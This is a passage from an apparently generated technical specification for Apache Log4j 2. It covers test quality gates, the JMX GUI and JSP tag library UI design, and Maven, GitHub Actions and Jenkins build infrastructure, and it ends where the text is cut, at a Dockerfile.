| **Flaky Tests** | Automatic retry with jitter | 1 retry attempt | GitHub issue creation |
| **Consistent Failures** | Build failure marking | No retry | PR blocking |
| **Infrastructure Issues** | Environment validation | 2 retries with backoff | Operations alert |
| **Timeout Failures** | Extended time limits | 1 retry with 2x timeout | Performance review |

#### 6.6.2.6 Flaky Test Management

Specific handling for platform-specific timing issues:

```xml
<!-- Flaky test retry configuration -->
<configuration>
    <rerunFailingTestsCount>1</rerunFailingTestsCount>
    <systemPropertyVariables>
        <!-- Windows-specific timing adjustments -->
        <log4j2.junit.fileCleanerSleepPeriodMillis>1000</log4j2.junit.fileCleanerSleepPeriodMillis>
    </systemPropertyVariables>
</configuration>
```

### 6.6.3 QUALITY METRICS

#### 6.6.3.1 Code Coverage Targets

Comprehensive coverage metrics ensure thorough validation across all module types:

| Coverage Type | Target Threshold | Enforcement Level | Measurement Tool |
|---|---|---|---|
| **Line Coverage** | 75% | Build warning | JaCoCo |
| **Branch Coverage** | 70% | Build warning | JaCoCo |
| **Method Coverage** | 80% | Informational | JaCoCo |
| **Class Coverage** | 90% | Informational | JaCoCo |

#### 6.6.3.2 Test Success Rate Requirements

#### Quality Gates

```mermaid
graph TB
    subgraph "Quality Gate Flow"
        A[Code Submission] --> B[Static Analysis]
        B --> C[Checkstyle]
        B --> D[SpotBugs]
        B --> E[RAT License]
        
        C --> F{Pass?}
        D --> F
        E --> F
        
        F -->|Yes| G[Unit Tests]
        F -->|No| H[Build Failure]
        
        G --> I{>98% Pass?}
        I -->|Yes| J[Integration Tests]
        I -->|No| H
        
        J --> K{>95% Pass?}
        K -->|Yes| L[Performance Tests]
        K -->|No| H
        
        L --> M[API Compatibility]
        M --> N[RevAPI Check]
        N --> O{Compatible?}
        
        O -->|Yes| P[Build Success]
        O -->|No| H
    end
```

#### 6.6.3.3 Performance Test Thresholds

Performance validation ensures sustained high-performance operation:

| Metric Category | Baseline Target | Warning Threshold | Critical Threshold |
|---|---|---|---|
| **Sync Throughput** | 2M events/second | <1.5M events/second | <1M events/second |
| **Async Throughput** | 5M events/second | <4M events/second | <3M events/second |
| **P99 Latency** | 1 millisecond | >2 milliseconds | >5 milliseconds |
| **Memory Allocation** | <1KB per event | >2KB per event | >5KB per event |

#### 6.6.3.4 Documentation Requirements

Comprehensive documentation standards ensure maintainable test infrastructure:

- **Test JavaDoc**: Required for all public test utilities and helper classes
- **Test Categories**: Documented purpose and scope for each test category
- **Configuration Files**: Inline comments explaining test scenarios and expected behaviors
- **Performance Baselines**: Historical tracking in `log4j-perf/README.md`

### 6.6.4 REQUIRED DIAGRAMS

#### 6.6.4.1 Test Execution Flow

```mermaid
flowchart TD
    A[Developer Push] --> B[GitHub Actions Trigger]
    B --> C[Environment Setup]
    
    C --> D[JDK 8 Setup]
    C --> E[JDK 11 Setup]
    C --> F[JDK 17 Setup]
    
    D --> G[Maven Toolchains]
    E --> G
    F --> G
    
    G --> H[Dependency Resolution]
    H --> I[Maven Cache Check]
    
    I --> J[Compilation Phase]
    J --> K[Static Analysis]
    
    K --> L[Unit Test Execution]
    L --> M[Test Category Filtering]
    
    M --> N[Core API Tests]
    M --> O[Appender Tests]
    M --> P[Performance Tests]
    
    N --> Q[Test Reporting]
    O --> Q
    P --> Q
    
    Q --> R[Coverage Analysis]
    R --> S[Report Generation]
    
    S --> T[GitHub Checks]
    T --> U[PR Status Update]
    
    U --> V{All Gates Pass?}
    V -->|Yes| W[Merge Allowed]
    V -->|No| X[Review Required]
```

#### 6.6.4.2 Test Environment Architecture

```mermaid
graph TB
    subgraph "Test Infrastructure"
        A[Test Executor] --> B[Resource Manager]
        B --> C[Port Allocator]
        B --> D[Temp Directory Manager]
        B --> E[Database Manager]
        
        C --> F[Dynamic Port Assignment]
        D --> G[Isolated Test Directories]
        E --> H[In-Memory Databases]
        
        I[Test Categories] --> J[Unit Tests]
        I --> K[Integration Tests]
        I --> L[Performance Tests]
        
        J --> M[Isolated Execution]
        K --> N[Service Dependencies]
        L --> O[JMH Harness]
        
        P[Test Utilities] --> Q[LoggerContextRule]
        P --> R[AvailablePortFinder]
        P --> S[StatusLoggerListener]
        
        Q --> T[Context Lifecycle]
        R --> U[Network Isolation]
        S --> V[Test Diagnostics]
    end
```

#### 6.6.4.3 Test Data Flow Diagrams

```mermaid
graph TB
    subgraph "Test Data Lifecycle"
        A[Test Configuration] --> B[Resource Loading]
        B --> C[Configuration Parser]
        C --> D[Test Context Creation]
        
        D --> E[Logger Instantiation]
        E --> F[Event Generation]
        F --> G[Appender Processing]
        
        G --> H[Output Validation]
        H --> I[Assertion Execution]
        I --> J[Result Collection]
        
        K[Test Fixtures] --> L[XML Configurations]
        K --> M[JSON Configurations]
        K --> N[YAML Configurations]
        
        L --> B
        M --> B
        N --> B
        
        O[Mock Services] --> P[SMTP Mock Server]
        O --> Q[JMS Mock Broker]
        O --> R[HTTP Mock Endpoints]
        
        P --> G
        Q --> G
        R --> G
    end
```

### 6.6.5 SECURITY TESTING REQUIREMENTS

#### 6.6.5.1 Security Validation Framework

Security testing ensures protection against common vulnerabilities:

- **Input Validation**: Configuration parsing security and injection prevention
- **Dependency Scanning**: Automated vulnerability detection via Dependabot
- **Static Analysis**: SpotBugs with FindSecBugs for security pattern detection
- **Network Security**: SSL/TLS configuration validation and certificate testing

#### 6.6.5.2 Security Test Categories

| Security Category | Test Implementation | Validation Scope | Tools Used |
|---|---|---|---|
| **Input Sanitization** | Malformed configuration tests | XML/JSON/YAML parsing | Custom test cases |
| **Dependency Security** | Vulnerability scanning | All dependencies | Dependabot, GitHub Security |
| **Network Security** | SSL/TLS validation | Network appenders | SSL test certificates |
| **Access Control** | JMX security testing | Management interfaces | JMX authentication tests |

### 6.6.6 RESOURCE REQUIREMENTS

#### 6.6.6.1 Test Environment Resource Allocation

| Resource Type | Minimum Allocation | Recommended Allocation | Maximum Capacity |
|---|---|---|---|
| **Memory** | 2GB heap | 4GB heap | 8GB heap |
| **CPU** | 2 cores | 4 cores | 8 cores |
| **Disk** | 10GB storage | 20GB storage | 50GB storage |
| **Network** | 1Gbps bandwidth | 1Gbps bandwidth | 10Gbps bandwidth |

#### 6.6.6.2 Test Execution Time Budgets

Performance targets ensure efficient development workflows:

- **Unit Tests**: <10 minutes for complete suite
- **Integration Tests**: <15 minutes for complete suite
- **Performance Tests**: <20 minutes for benchmarking suite
- **Full Test Suite**: <30 minutes across all platforms

#### References

**Files Examined:**
- `log4j-core-its/pom.xml` - Integration test module configuration and test categories
- `log4j-perf/` - Performance testing module with JMH benchmarks
- `.github/workflows/` - GitHub Actions CI/CD pipeline configuration
- `pom.xml` - Maven build configuration with toolchains and multi-module structure

**Sections Referenced:**
- Section 3.2 Frameworks & Libraries - Testing framework alignment and dependency management
- Section 3.6 Development & Deployment - CI/CD integration and build automation
- Section 6.1 Core Services Architecture - Component architecture and plugin system understanding
- Section 6.5 Monitoring and Observability - Performance monitoring and JMX integration alignment

**Testing Tools and Frameworks:**
- JUnit 4 (4.13.2) and JUnit 5 (5.7.2) - Primary testing frameworks
- Mockito (3.11.2) - Mocking framework for unit test isolation
- JaCoCo - Code coverage measurement and reporting
- JMH - Java Microbenchmark Harness for performance testing
- Maven Surefire/Failsafe - Test execution and reporting plugins

# 7. USER INTERFACE DESIGN

## 7.1 OVERVIEW

### 7.1.1 User Interface Scope

Apache Log4j 2 is primarily a logging framework that provides optional user interface components for administrative and monitoring purposes. The system offers two distinct UI approaches:

1. **JMX GUI Module** - A desktop Swing application for remote configuration management
2. **JSP Tag Library Module** - Web-based logging controls for JSP applications

These UI components serve specialized use cases in enterprise environments where visual interaction with the logging system is required for configuration management, monitoring, and web application logging control.

### 7.1.2 UI Architecture Philosophy

The UI components follow a decoupled architecture pattern where:
- User interfaces are optional modules that extend core logging functionality
- UI layers interact with the logging system through well-defined APIs
- Each UI component maintains independence from the core logging implementation
- Visual components provide administrative and monitoring capabilities rather than end-user functionality

## 7.2 CORE UI TECHNOLOGIES

### 7.2.1 JMX GUI Technology Stack

#### 7.2.1.1 Primary Technologies

**Java Swing Framework**
- **Purpose**: Desktop GUI component library for cross-platform compatibility
- **Implementation**: Standard Java AWT/Swing components with custom panels and layouts
- **Location**: `log4j-jmx-gui/src/main/java/org/apache/logging/log4j/jmx/gui/`

**JMX (Java Management Extensions)**
- **Purpose**: Remote management and monitoring protocol
- **Implementation**: MBean clients for connecting to remote Log4j instances
- **Integration**: JConsole plugin compatibility through standardized JMX interfaces

**Multi-Deployment Architecture**
- **Standalone Application**: Independent JAR execution with main class entry point
- **JConsole Plugin**: Integration with Java's built-in JConsole management tool
- **Modular Design**: Pluggable architecture supporting different deployment scenarios

#### 7.2.1.2 Component Architecture

```mermaid
graph TB
    subgraph "JMX GUI Architecture"
        A[ClientGui.java] --> B[Main Swing Panel]
        A --> C[JTabbedPane Interface]
        
        D[ClientEditConfigPanel.java] --> E[Configuration Editor]
        D --> F[URI Input Controls]
        D --> G[XML Editing Interface]
        
        H[Client.java] --> I[JMX Connection Manager]
        H --> J[Remote MBean Access]
        
        K[ClientGuiJConsolePlugin.java] --> L[JConsole Integration]
        K --> M[Plugin Registration]
        
        B --> N[StatusLogger Monitor]
        E --> O[Configuration Validation]
        I --> P[Remote Log4j Instance]
    end
```

### 7.2.2 JSP Tag Library Technology Stack

#### 7.2.2.1 Web Technologies

**JavaServer Pages (JSP)**
- **Purpose**: Server-side web component technology
- **Implementation**: Custom tag library with TLD (Tag Library Descriptor) definitions
- **Location**: `log4j-taglib/src/main/java/org/apache/logging/log4j/taglib/`

**Java EE Servlet Specification**
- **Purpose**: Web application container integration
- **Implementation**: Standard servlet container compatibility
- **Integration**: Seamless integration with major application servers

#### 7.2.2.2 Tag Library Components

**Core Logging Tags**
- `<log:trace>`, `<log:debug>`, `<log:info>`, `<log:warn>`, `<log:error>`, `<log:fatal>`
- `<log:log>` - Dynamic level logging
- `<log:entry>`, `<log:exit>` - Method tracing
- `<log:catching>` - Exception logging
- `<log:setLogger>` - Logger configuration
- `<log:ifEnabled>` - Conditional logging
- `<log:dump>` - Object inspection

## 7.3 UI USE CASES

### 7.3.1 JMX GUI Use Cases

#### 7.3.1.1 UC-001: Remote Configuration Management

**Primary Actor**: System Administrator
**Preconditions**: Target application running with JMX enabled
**Main Flow**:
1. Administrator launches JMX GUI application
2. System prompts for JMX connection parameters
3. Administrator enters host, port, and authentication credentials
4. GUI establishes connection to remote Log4j instance
5. Current configuration is loaded and displayed
6. Administrator modifies configuration parameters
7. System validates configuration syntax
8. Updated configuration is pushed to remote instance
9. Configuration changes take effect without application restart

**Success Criteria**: Configuration updated successfully with zero downtime

#### 7.3.1.2 UC-002: StatusLogger Monitoring

**Primary Actor**: Operations Engineer
**Preconditions**: JMX GUI connected to target application
**Main Flow**:
1. Engineer opens StatusLogger monitoring tab
2. System displays real-time log events from StatusLogger
3. Engineer monitors system status and error conditions
4. System provides filtering and search capabilities
5. Engineer identifies and responds to system issues

**Success Criteria**: Real-time visibility into Log4j system status

#### 7.3.1.3 UC-003: JConsole Plugin Integration

**Primary Actor**: Java Developer
**Preconditions**: JConsole application running
**Main Flow**:
1. Developer launches JConsole with Log4j plugin
2. JConsole loads Log4j GUI as integrated plugin
3. Developer connects to target JVM through JConsole
4. Log4j configuration interface appears in JConsole tabs
5. Developer performs configuration and monitoring tasks
6. Changes are applied through JConsole infrastructure

**Success Criteria**: Seamless integration with standard Java monitoring tools

### 7.3.2 JSP Tag Library Use Cases

#### 7.3.2.1 UC-004: Dynamic Web Application Logging

**Primary Actor**: Web Application
**Preconditions**: JSP page processing user request
**Main Flow**:
1. JSP page encounters logging tag
2. Tag library evaluates logging level and conditions
3. If logging is enabled, message is processed
4. Log event is created and sent to configured appenders
5. Page processing continues without interruption

**Success Criteria**: Seamless logging integration in web applications

#### 7.3.2.2 UC-005: Conditional Logging Control

**Primary Actor**: Web Developer
**Preconditions**: JSP page with conditional logging requirements
**Main Flow**:
1. Developer places `<log:ifEnabled>` tag around logging code
2. Tag evaluates current logger level configuration
3. If logging level is enabled, enclosed content is processed
4. If logging level is disabled, content is skipped
5. Performance impact is minimized through level checking

**Success Criteria**: Efficient conditional logging without performance degradation

## 7.4 UI/BACKEND INTERACTION BOUNDARIES

### 7.4.1 JMX GUI Interaction Boundaries

#### 7.4.1.1 JMX Protocol Boundary

```mermaid
sequenceDiagram
    participant GUI as JMX GUI Client
    participant JMX as JMX Server
    participant Core as Log4j Core
    
    GUI->>JMX: Connect to MBean Server
    JMX-->>GUI: Connection Established
    GUI->>JMX: Request Configuration
    JMX->>Core: Get Current Configuration
    Core-->>JMX: Configuration XML
    JMX-->>GUI: Configuration Data
    GUI->>JMX: Update Configuration
    JMX->>Core: Apply New Configuration
    Core-->>JMX: Configuration Applied
    JMX-->>GUI: Update Confirmation
```

**Interaction Characteristics**:
- **Protocol**: Standard JMX over RMI or HTTP connector
- **Authentication**: JMX-based authentication and authorization
- **Data Format**: XML configuration serialization
- **Error Handling**: JMX exception propagation with GUI error dialogs

#### 7.4.1.2 Configuration Management Boundary

**Input Validation**:
- XML schema validation for configuration syntax
- Component dependency validation
- Property value range checking
- Circular reference detection

**State Management**:
- Configuration versioning for rollback capability
- Atomic configuration updates
- Consistency validation across distributed instances

### 7.4.2 JSP Tag Library Interaction Boundaries

#### 7.4.2.1 Servlet Container Integration

```mermaid
sequenceDiagram
    participant JSP as JSP Engine
    participant Tag as Log4j Tag
    participant Logger as Logger Instance
    participant Appender as Appender
    
    JSP->>Tag: Process Logging Tag
    Tag->>Logger: Check Level Enabled
    Logger-->>Tag: Level Status
    alt Level Enabled
        Tag->>Logger: Log Message
        Logger->>Appender: Process Event
        Appender-->>Logger: Event Processed
        Logger-->>Tag: Logging Complete
    else Level Disabled
        Tag-->>JSP: Skip Processing
    end
    Tag-->>JSP: Tag Processing Complete
```

**Interaction Characteristics**:
- **Container Integration**: Standard JSP tag library lifecycle
- **Thread Safety**: Request-scoped tag instances with thread-local contexts
- **Performance**: Minimal overhead through level checking optimization
- **Error Handling**: Graceful degradation with error logging

## 7.5 UI SCHEMAS

### 7.5.1 JMX GUI Data Schemas

#### 7.5.1.1 Configuration Schema

```mermaid
erDiagram
    ConfigurationRoot {
        string name
        string status
        int monitorInterval
        string shutdownHook
    }
    
    Logger {
        string name
        string level
        boolean additivity
        string includeLocation
    }
    
    Appender {
        string name
        string type
        string fileName
        string immediateFlush
    }
    
    Layout {
        string type
        string pattern
        string charset
    }
    
    Filter {
        string type
        string level
        string onMatch
        string onMismatch
    }
    
    ConfigurationRoot ||--o{ Logger : contains
    ConfigurationRoot ||--o{ Appender : contains
    Logger ||--o{ Appender : references
    Appender ||--|| Layout : uses
    Logger ||--o{ Filter : applies
    Appender ||--o{ Filter : applies
```

#### 7.5.1.2 Status Event Schema

```mermaid
erDiagram
    StatusEvent {
        timestamp eventTime
        string level
        string message
        string threadName
        string className
        string methodName
        int lineNumber
    }
    
    StatusLogger {
        string name
        string level
        boolean enabled
    }
    
    StatusLogger ||--o{ StatusEvent : generates
```

### 7.5.2 JSP Tag Library Schemas

#### 7.5.2.1 Tag Attribute Schema

```mermaid
erDiagram
    LogTag {
        string level
        string logger
        string message
        string marker
        object exception
        boolean includeLocation
    }
    
    ConditionalTag {
        string level
        string logger
        string marker
    }
    
    MethodTag {
        string logger
        string signature
        object parameters
        object result
    }
    
    LoggerTag {
        string var
        string name
        string scope
    }
```

## 7.6 SCREENS REQUIRED

### 7.6.1 JMX GUI Screens

#### 7.6.1.1 SC-001: Main Application Window

**Screen Purpose**: Primary interface for JMX GUI functionality
**Layout**: Tabbed interface with main panels
**Components**:
- **Connection Panel**: JMX connection configuration
- **Configuration Panel**: XML configuration editor
- **Status Panel**: StatusLogger monitoring
- **Menu Bar**: File operations and help

**Visual Elements**:
- **Connection Status Indicator**: Green/Red LED-style indicator
- **Configuration Tree**: Hierarchical view of loggers and appenders
- **Status Log Table**: Real-time status event display
- **Toolbar**: Quick access to common operations

#### 7.6.1.2 SC-002: Configuration Editor Panel

**Screen Purpose**: Edit Log4j configuration XML
**Layout**: Split pane with tree view and editor
**Components**:
- **Configuration Tree**: Hierarchical component view
- **XML Editor**: Syntax-highlighted XML editor
- **Validation Panel**: Error and warning display
- **Property Inspector**: Component property editing

**Visual Elements**:
- **Syntax Highlighting**: XML syntax coloring
- **Error Indicators**: Red underlines for validation errors
- **Property Grid**: Table-based property editing
- **Save/Revert Buttons**: Configuration change management

#### 7.6.1.3 SC-003: Status Logger Monitor

**Screen Purpose**: Real-time StatusLogger output monitoring
**Layout**: Table-based event display with filtering
**Components**:
- **Event Table**: Sortable, filterable event display
- **Filter Controls**: Level and text filtering
- **Search Bar**: Event search functionality
- **Export Controls**: Log export capabilities

**Visual Elements**:
- **Level Icons**: Color-coded level indicators
- **Timestamp Display**: Formatted timestamp column
- **Message Highlighting**: Search term highlighting
- **Auto-Scroll Controls**: Automatic scrolling toggle

### 7.6.2 JSP Tag Library Screens

#### 7.6.2.1 SC-004: Sample Web Application

**Screen Purpose**: Demonstrate JSP tag library functionality
**Layout**: Simple web page with logging controls
**Components**:
- **Start/Stop Controls**: Service control buttons
- **Status Display**: Current service status
- **Log Level Controls**: Dynamic level adjustment
- **Test Logging**: Sample log message generation

**Visual Elements**:
- **Bootstrap Styling**: Responsive web design
- **Status Badges**: Color-coded status indicators
- **Form Controls**: Standard HTML form elements
- **Log Output**: Real-time log display area

## 7.7 USER INTERACTIONS

### 7.7.1 JMX GUI User Interactions

#### 7.7.1.1 Connection Management

**UI-001: Establish JMX Connection**
- **Trigger**: User clicks "Connect" button
- **Input**: Host, port, credentials
- **Process**: JMX connection establishment
- **Output**: Connection status update
- **Error Handling**: Connection failure dialog

**UI-002: Disconnect from JMX**
- **Trigger**: User clicks "Disconnect" button
- **Process**: Clean connection termination
- **Output**: UI state reset to disconnected
- **Confirmation**: Unsaved changes warning

#### 7.7.1.2 Configuration Management

**UI-003: Load Configuration**
- **Trigger**: Successful JMX connection
- **Process**: Retrieve remote configuration
- **Output**: Configuration tree population
- **Error Handling**: Configuration parse error display

**UI-004: Edit Configuration**
- **Trigger**: User modifies configuration element
- **Process**: Real-time validation
- **Output**: Visual feedback on changes
- **Error Handling**: Validation error highlighting

**UI-005: Apply Configuration**
- **Trigger**: User clicks "Apply" button
- **Process**: Configuration validation and deployment
- **Output**: Success/failure notification
- **Error Handling**: Detailed error message display

#### 7.7.1.3 Monitoring Interactions

**UI-006: Monitor StatusLogger**
- **Trigger**: User opens Status tab
- **Process**: Real-time event streaming
- **Output**: Live event table updates
- **Controls**: Pause/resume, clear, export

**UI-007: Filter Status Events**
- **Trigger**: User enters filter criteria
- **Process**: Real-time event filtering
- **Output**: Filtered event display
- **Reset**: Clear filter button

### 7.7.2 JSP Tag Library User Interactions

#### 7.7.2.1 Web Application Interactions

**UI-008: Service Control**
- **Trigger**: User clicks start/stop button
- **Process**: Backend service state change
- **Output**: Status update and log generation
- **Feedback**: Visual status indicator change

**UI-009: Log Level Adjustment**
- **Trigger**: User selects different log level
- **Process**: Dynamic logger level update
- **Output**: Immediate level change effect
- **Validation**: Level value validation

## 7.8 VISUAL DESIGN CONSIDERATIONS

### 7.8.1 JMX GUI Visual Design

#### 7.8.1.1 Design Principles

**Cross-Platform Consistency**
- Standard Java Look and Feel compliance
- Platform-specific UI conventions
- Consistent icon usage and sizing
- Readable font selections across platforms

**Administrative Tool Aesthetics**
- Clean, functional interface design
- Minimal visual distractions
- Clear hierarchy and information organization
- Professional color scheme with status indicators

**Usability Considerations**
- Logical tab organization and navigation
- Keyboard shortcuts for common operations
- Context-sensitive help and tooltips
- Clear error message presentation

#### 7.8.1.2 Color Scheme and Iconography

**Status Indicators**
- **Green**: Connected, successful operations
- **Red**: Disconnected, error conditions
- **Yellow**: Warning conditions, validation issues
- **Blue**: Information, neutral status

**Icon Standards**
- **16x16 pixel icons**: Standard toolbar and tree icons
- **System icons**: Platform-appropriate file and folder icons
- **Status icons**: LED-style indicators for connection status
- **Action icons**: Standard save, open, refresh icons

### 7.8.2 JSP Tag Library Visual Design

#### 7.8.2.1 Web Integration Standards

**Framework Compatibility**
- **Bootstrap Integration**: Responsive grid system support
- **CSS Framework Agnostic**: Works with any CSS framework
- **HTML5 Semantic Elements**: Proper semantic markup generation
- **Accessibility Compliance**: WCAG 2.0 accessibility standards

**Visual Feedback**
- **Status Badges**: Color-coded service status indicators
- **Progress Indicators**: Loading states for asynchronous operations
- **Error Highlighting**: Form validation error display
- **Success Notifications**: Operation completion feedback

#### 7.8.2.2 Sample Application Design

**Simple, Functional Interface**
- Clean, minimal design focused on functionality
- Clear button labels and intuitive layout
- Responsive design for mobile compatibility
- Consistent with Java web application conventions

**Interactive Elements**
- **Hover Effects**: Subtle button hover states
- **Active States**: Clear indication of active controls
- **Focus Indicators**: Keyboard navigation support
- **Loading States**: Visual feedback during operations

## 7.9 PERFORMANCE CONSIDERATIONS

### 7.9.1 JMX GUI Performance

#### 7.9.1.1 Memory Management

**Efficient Data Structures**
- Tree model optimization for large configurations
- Streaming status event processing
- Configurable event buffer sizes
- Automatic memory cleanup for disconnected sessions

**UI Responsiveness**
- Background thread processing for JMX operations
- Progressive configuration loading
- Lazy loading of large configuration sections
- Non-blocking UI updates

#### 7.9.1.2 Network Optimization

**Connection Efficiency**
- Connection pooling for multiple targets
- Compressed data transmission
- Incremental configuration updates
- Heartbeat monitoring for connection health

### 7.9.2 JSP Tag Library Performance

#### 7.9.2.1 Runtime Optimization

**Minimal Processing Overhead**
- Level checking before message processing
- Efficient tag attribute parsing
- Cached logger instances
- Optimized string operations

**Memory Efficiency**
- Request-scoped tag instances
- Minimal object allocation
- Efficient message formatting
- Garbage collection friendly operations

## 7.10 SECURITY CONSIDERATIONS

### 7.10.1 JMX GUI Security

#### 7.10.1.1 Authentication and Authorization

**JMX Security Integration**
- Standard JMX authentication mechanisms
- SSL/TLS encrypted connections
- Role-based access control
- Secure credential storage

**Connection Security**
- Certificate validation for SSL connections
- Configurable security policies
- Audit logging of administrative actions
- Session timeout management

### 7.10.2 JSP Tag Library Security

#### 7.10.2.1 Web Application Security

**Input Validation**
- XSS prevention in log messages
- SQL injection prevention in database appenders
- Parameter sanitization
- Content encoding for output

**Configuration Security**
- Secure configuration file access
- Environment variable protection
- Classpath resource security
- Runtime permission validation

## 7.11 REFERENCES

### 7.11.1 Files Examined

- `log4j-jmx-gui/src/main/java/org/apache/logging/log4j/jmx/gui/ClientGui.java` - Main Swing GUI implementation with tabbed interface
- `log4j-jmx-gui/src/main/java/org/apache/logging/log4j/jmx/gui/ClientEditConfigPanel.java` - Configuration editor panel with XML editing capabilities
- `log4j-jmx-gui/src/main/java/org/apache/logging/log4j/jmx/gui/Client.java` - JMX connection management and MBean interaction
- `log4j-jmx-gui/src/main/java/org/apache/logging/log4j/jmx/gui/ClientGuiJConsolePlugin.java` - JConsole plugin integration implementation
- `log4j-jmx-gui/src/site/markdown/index.md` - JMX GUI documentation and usage instructions
- `log4j-taglib/src/main/java/org/apache/logging/log4j/taglib/*.java` - JSP tag library implementation classes
- `log4j-taglib/src/site/markdown/index.md` - JSP tag library documentation and examples
- `log4j-samples/log4j-samples-flume-embedded/src/main/webapp/start.jsp` - Sample web application with logging controls
- `log4j-samples/log4j-samples-flume-remote/src/main/webapp/start.jsp` - Sample web application demonstrating remote logging
- `src/site/markdown/javadoc.md` - API documentation links and references

### 7.11.2 Folders Analyzed

- `log4j-jmx-gui/` - JMX GUI module root containing desktop application implementation
- `log4j-jmx-gui/src/main/java/org/apache/logging/log4j/jmx/gui/` - Core GUI implementation classes
- `log4j-taglib/` - JSP tag library module providing web-based logging controls
- `log4j-taglib/src/main/java/org/apache/logging/log4j/taglib/` - Tag library implementation classes
- `log4j-samples/log4j-samples-flume-embedded/src/main/webapp/` - Sample web application with embedded logging
- `log4j-samples/log4j-samples-flume-remote/src/main/webapp/` - Sample web application with remote logging capabilities

# 8. INFRASTRUCTURE

## 8.1 INFRASTRUCTURE APPLICABILITY ASSESSMENT

### 8.1.1 System Type Classification

**Detailed Infrastructure Architecture is not applicable for this system.** Apache Log4j 2 is a standalone Java logging framework distributed as a library rather than a deployed application. The system consists of JAR files that are integrated into other applications as dependencies through Maven Central repository distribution.

### 8.1.2 Infrastructure Scope Justification

Unlike traditional web applications or microservices that require deployment environments, load balancers, and runtime infrastructure, Apache Log4j 2 operates as:

- **Library Distribution**: JAR artifacts consumed by other applications
- **Build-Time Integration**: Components integrated during application compilation
- **Runtime Embedding**: Framework embedded within host applications
- **Zero Deployment Footprint**: No standalone deployment requirements

The infrastructure requirements are therefore limited to:
- Build and compilation infrastructure
- Continuous integration and distribution pipelines
- Artifact repository management
- Quality assurance and security scanning infrastructure

## 8.2 BUILD INFRASTRUCTURE

### 8.2.1 Maven Build System Architecture

**Build Platform Configuration**

| Component | Version | Purpose | Justification |
|-----------|---------|---------|---------------|
| Maven | 3.6.3 | Primary build system | Industry standard with comprehensive dependency management |
| Maven Wrapper | Takari 0.5.6 | Reproducible builds | Ensures consistent build environment across developers |
| Multi-module Structure | 35+ modules | Modular architecture | Enables selective dependency inclusion and independent module releases |

**Module Architecture Overview**

```mermaid
graph TB
    A[Root POM] --> B[Core Modules]
    A --> C[Bridge Modules]
    A --> D[Appender Modules]
    A --> E[Integration Modules]
    A --> F[Distribution Module]
    
    B --> B1[log4j-api]
    B --> B2[log4j-core]
    B --> B3[log4j-slf4j-impl]
    
    C --> C1[log4j-jcl]
    C --> C2[log4j-jul]
    C --> C3[log4j-1.2-api]
    
    D --> D1[log4j-cassandra]
    D --> D2[log4j-mongodb]
    D --> D3[log4j-kafka]
    
    E --> E1[log4j-spring-boot]
    E --> E2[log4j-web]
    E --> E3[log4j-kubernetes]
    
    F --> F1[Binary Distribution]
    F --> F2[Source Distribution]
```

### 8.2.2 Build Environment Requirements

**Development Environment Specifications**

| Resource Type | Minimum Requirements | Recommended Configuration |
|---------------|---------------------|---------------------------|
| CPU | 4 cores | 8 cores for parallel builds |
| Memory | 8GB RAM | 16GB RAM for full module compilation |
| Storage | 20GB available | 50GB for multiple JDK versions |
| Network | Stable internet | High-speed for dependency downloads |

**JDK Toolchain Configuration**

The build system supports multiple JDK versions through Maven toolchains:

- **Jenkins Ubuntu Agents**: JDK 1.8, 11, 15, 17
- **Jenkins Windows Agents**: JDK 1.7, 1.8, 9
- **Docker Containers**: JDK 1.7, 9
- **GitHub Actions**: JDK 8, 11, 17

### 8.2.3 Dependency Management Strategy

**Repository Configuration**

- **Primary Repository**: Maven Central for stable releases
- **Snapshot Repository**: Apache Snapshot Repository for development builds
- **Security Repository**: Apache Security Repository for vulnerability patches
- **Artifact Caching**: Local and remote cache optimization for build performance

**Dependency Resolution**

```mermaid
graph LR
    A[Local Cache] --> B[Build Process]
    C[Maven Central] --> A
    D[Apache Snapshots] --> A
    E[Security Repository] --> A
    
    B --> F[Compiled Artifacts]
    F --> G[Test Execution]
    G --> H[Quality Gates]
    H --> I[Distribution Assembly]
```

## 8.3 CONTINUOUS INTEGRATION PIPELINE

### 8.3.1 GitHub Actions CI/CD

**Pipeline Architecture**

```mermaid
graph TB
    A[Source Code Push] --> B[GitHub Actions Trigger]
    B --> C[Build Matrix Setup]
    C --> D[Ubuntu Build]
    C --> E[Windows Build]
    C --> F[macOS Build]
    
    D --> G[JDK 8 Testing]
    D --> H[JDK 11 Testing]
    D --> I[JDK 17 Testing]
    
    E --> J[Windows JDK 8]
    E --> K[Windows JDK 11]
    
    F --> L[macOS JDK 8]
    F --> M[macOS JDK 11]
    
    G --> N[Test Results]
    H --> N
    I --> N
    J --> N
    K --> N
    L --> N
    M --> N
    
    N --> O[Artifact Publishing]
    O --> P[Notification]
```

**Build Configuration Details**

| Stage | Configuration | Purpose |
|-------|---------------|---------|
| **Checkout** | actions/checkout@v2 | Source code retrieval |
| **Cache** | actions/cache@v2 | Maven repository caching |
| **JDK Setup** | actions/setup-java@v1 | Multi-JDK environment |
| **Build** | `./mvnw verify -B -q -U` | Compilation and testing |
| **Reports** | Surefire report publishing | Test result analysis |
| **Artifacts** | Test artifact archival | Build output preservation |

### 8.3.2 Apache Jenkins CI

**Jenkins Infrastructure Configuration**

- **CI Management URL**: https://ci-builds.apache.org/job/Logging/job/log4j/
- **Agent Configuration**: Linux masters with Ubuntu and Windows agents
- **JDK Matrix**: JDK 1.7 through 17 across multiple platforms
- **Build Triggers**: SCM polling and webhook integration

**Toolchain Management**

| Configuration File | Target Environment | JDK Versions |
|-------------------|-------------------|--------------|
| jenkins-toolchains.xml | Linux master | JDK 1.8, 11, 15 |
| jenkins-toolchains-ubuntu.xml | Ubuntu agents | JDK 1.8-17 |
| jenkins-toolchains-win.xml | Windows agents | JDK 1.7, 1.8, 9 |

### 8.3.3 Quality Gates and Validation

**Static Analysis Pipeline**

```mermaid
graph TD
    A[Code Commit] --> B[Static Analysis]
    B --> C[Checkstyle]
    B --> D[SpotBugs]
    B --> E[PMD]
    B --> F[Apache RAT]
    
    C --> G[Style Compliance]
    D --> H[Bug Detection]
    E --> I[Code Quality]
    F --> J[License Compliance]
    
    G --> K[Quality Gate]
    H --> K
    I --> K
    J --> K
    
    K --> L[Build Approval]
    L --> M[Artifact Generation]
```

**Security Validation**

- **Dependency Scanning**: Automated vulnerability detection via Dependabot
- **License Validation**: Apache RAT plugin for license compliance
- **Security Testing**: FindSecBugs integration for security vulnerability detection
- **Compliance Verification**: OWASP dependency check integration

## 8.4 CONTAINERIZATION INFRASTRUCTURE

### 8.4.1 Docker Build Environment

**Container Configuration**

```dockerfile
# Base configuration from Dockerfile
FROM openjdk:7-jdk
# Multi-JDK setup for testing
